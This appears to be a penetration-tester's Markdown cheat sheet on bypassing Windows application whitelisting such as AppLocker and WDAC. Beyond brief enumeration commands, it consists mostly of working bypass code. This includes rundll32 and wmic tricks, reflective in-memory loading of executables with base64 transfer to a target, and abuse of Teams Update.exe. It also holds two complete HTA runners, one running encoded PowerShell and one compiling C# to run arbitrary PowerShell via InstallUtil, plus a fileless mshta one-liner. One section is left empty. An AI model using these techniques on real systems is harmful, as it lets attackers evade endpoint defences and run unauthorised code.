

# Application Whitelisting Bypasses
## Enumeration
Check Applocker policies:
`Get-AppLockerPolicies -Effective`    
ASR Rules:   
`Get-MpPreference | select AttackSurfaceReductionRules_Ids, AttackSurfaceReductionRules_Action`   
WDAC:   
`Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard | FL codeintegrity`   
## Random ones...
- Bypass Applocker with mimilib.dll to run arbitrary executables:  
  `rundll32 c:\path\mimilib.dll,start d:\otherpath\a.exe`  
- Run PowerShell.exe via wmic.exe:   
  `wmic.exe process call create "cmd /c powershell"` 
  
## PowerShell Assembly Reflection
```powershell
# This technique can in some cases be used to bypass application whitelisting
# The following example runs the tool Snaffler.exe with the argument -s
[byte[]]$bytes = get-content -encoding byte -path C:\Users\username\Desktop\Snaffler.exe
$asm = [System.Reflection.Assembly]::Load($bytes)
$vars = New-Object System.Collections.Generic.List[System.Object]
$vars.Add("-s")
$passed = [string[]]$vars.ToArray()
$asm.EntryPoint.Invoke($null, @(,$passed))
```   
If you want to use this technique on a remote target, you can b64 encode the bytes and transfer the b64 blob:   
```powershell
[byte[]]$bytes = get-content -encoding byte -path 'C:\_data\Snaffler.exe'
$base64string = [Convert]::ToBase64String($bytes)
# Transfer b64 file and on target:
$bytes = [Convert]::FromBase64String($base64string)
$asm = [System.Reflection.Assembly]::Load($bytes)
$vars = New-Object System.Collections.Generic.List[System.Object]
$vars.Add("-s")
$vars.Add("-o")
$vars.Add("c:\_data\snaffler.log")
$passed = [string[]]$vars.ToArray()
$asm.EntryPoint.Invoke($null, @(,$passed))
```
## Using WorkFolders
You can use the Workfolders application in Windows to run any binary in the current directory after renaming it to "control.exe":


## Using Teams Update.exe
Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied:   
`%userprofile%\AppData\Local\Microsoft\Teams\Update.exe --processStart payload.exe --process-start-args "whatever args"`   

## Using HTA
### HTA PowerShell runner
Runs b64 encoded powershell command using WScript.Shell
```
<html>
<head>
<title>HTA exec</title>
</head>
<SCRIPT LANGUAGE="VBScript">
Public globalShellObj
Public globalExecObj
    Sub HandleInput
		Set globalShellObj = CreateObject("WScript.Shell") 
        If globalShellObj.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
            Set globalExecObj = globalShellObj.exec("%windir%\Sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -Enc RwBlAHQALQBDAGgAaQBsAGQAaQB0AGUAbQAgACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAXABkAGUAcwBrAHQAbwBwACAAfAAgAG8AdQB0AC0AZgBpAGwAZQAgACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAXABkAGUAcwBrAHQAbwBwAFwAaAB0AGEAbwB1AHQALgB0AHgAdAA=")
        Else
            Set globalExecObj = globalShellObj.exec("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -Enc RwBlAHQALQBDAGgAaQBsAGQAaQB0AGUAbQAgACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAXABkAGUAcwBrAHQAbwBwACAAfAAgAG8AdQB0AC0AZgBpAGwAZQAgACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAXABkAGUAcwBrAHQAbwBwAFwAaAB0AGEAbwB1AHQALgB0AHgAdAA=")
        End If
    
    End Sub

</SCRIPT>

<body>
<div id="left" style="float:left;height=100%;">
Well, hello!
</div>
	<script>
		HandleInput
	</script>
</body>
</html>
```

### powershell.hta
From: https://github.com/jpginc/pentesting-hta
Runs powershell commands taking advantage of csc.exe and InstallUtil.exe
```
<html>
<head>
<title>HTA Test</title>
<HTA:APPLICATION 
     ID="objTest" 
     APPLICATIONNAME="HTATest"
     SCROLL="yes"
     SINGLEINSTANCE="yes"
>
</head>

<SCRIPT LANGUAGE="VBScript">
const cSharpCodeFileName = ".\powershell.cs"
const commandsOutputFile = ".\powershell.txt"
const cSharpExeFileName = ".\ps.exe"

Public globalShellObj
Public globalExecObj

Function writeToFile(outFile, contents)
	Set objFSO=CreateObject("Scripting.FileSystemObject")
	Set objFile = objFSO.CreateTextFile(outFile,True)
	objFile.Write contents
	objFile.Close
end function

Function compileCSharpCodeFromFile(filename, outFile)
	Set compileShell = CreateObject("WScript.Shell") 
	exitCode = compileShell.run("c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:" & outFile & " "  & filename, visible = false, wait = true)
end function

Function writeOutput(text)
    Set div = document.getElementById("output")
    div.innerText = div.innerText & text
    document.getElementById("right").scrollTop = document.getElementById("right").scrollHeight
end function
sub init
	writeToFile cSharpCodeFileName, document.getElementById("cscode").innerText
	compileCSharpCodeFromFile cSharpCodeFileName, cSharpExeFileName
end sub
sub checkOutput
    std = globalExecObj.stdout.readall()
    errr = globalExecObj.StdErr.readall
    if InStr(std, "startasdfasdfasdf") then
        std = Mid(std ,instr(std, "startasdfasdfasdf")+ len("startasdfasdfasdf"), instr(std, "The uninstall has completed.")- instr(std, "startasdfasdfasdf") -len("startasdfasdfasdf"))
    end if
    writeOutput vbCrLf & std 
    writeOutput errr
end Sub
Sub HandleInput
    writeToFile commandsOutputFile, BasicTextBox.value
    Set globalShellObj = CreateObject("WScript.Shell") 
    Set globalExecObj = globalShellObj.exec("C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=True /u .\ps.exe")
    writeOutput vbCrLf & "> " & BasicTextBox.value 
    BasicTextbox.value = ""
    checkOutput
End Sub
sub runInteractive
    writeToFile commandsOutputFile, BasicTextBox.value
    Set temp1 = CreateObject("WScript.Shell") 
    temp2 = temp1.run("C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=True /u .\ps.exe", 1, 0)
end sub

</SCRIPT>

<body>
	<div id="left" style="float:left;height=100%;">
		<div>
			<textarea rows="4" cols="50" id="prompt" type="text" name="BasicTextbox" size="30"></textarea>
		</div>
		<div>
			<input id=runbutton  type="button" value="Run and grab stdin/out (non-interactive blocking)" name="run_button"  onClick="HandleInput">
			<br>
			<input id=runbutton  type="button" value="Run without grabbing stdin/out (interactive non-blocking)" name="run_button"  onClick="runInteractive">
		</div>
	</div>
	<p id="cscode" style="display:none">using System;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
public class Program
 {
 public static void Main()
 {
 }
 }
 [System.ComponentModel.RunInstaller(true)]
 public class Sample : System.Configuration.Install.Installer
 {
 public override void Uninstall(System.Collections.IDictionary savedState)
 {
 Mycode.Exec();
 }
 }
 public class Mycode
 {
 public static void Exec()
 {
 string command = System.IO.File.ReadAllText(@".\powershell.txt");
 RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
 Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
 rspace.Open();
 Pipeline pipeline = rspace.CreatePipeline();
 pipeline.Commands.AddScript(command);
 pipeline.InvokeAsync();
	while(pipeline.PipelineStateInfo.State == PipelineState.Running || pipeline.PipelineStateInfo.State == PipelineState.Stopping) {
		System.Threading.Thread.Sleep(50);
	}
	Console.WriteLine("startasdfasdfasdf");
	
	foreach (object item in pipeline.Output.ReadToEnd())
	{
        if(item != null) {
            Console.WriteLine(item.ToString());
		}
	}
	foreach (object item in pipeline.Error.ReadToEnd())
	{
        if(item != null) {
            Console.WriteLine(item.ToString());
		}
	}
 }
 }
</p>
	<div id="right" style="background-color:black;font-family:monospace;color:white;height:100%;max-height:100%;overflow:scroll;">
		<p id="output">get ready...</p>
	</div>
	<script>
		document.getElementById("prompt").focus()
	</script>
<SCRIPT LANGUAGE="VBScript">

	init
</SCRIPT>
</body>
</html>
```
### File-Less HTA
`mshta.exe javascript:"<script language=vbscript>createobject(\"WScript.Shell\").run(\"calc\")\r\nclose()</script>"`   
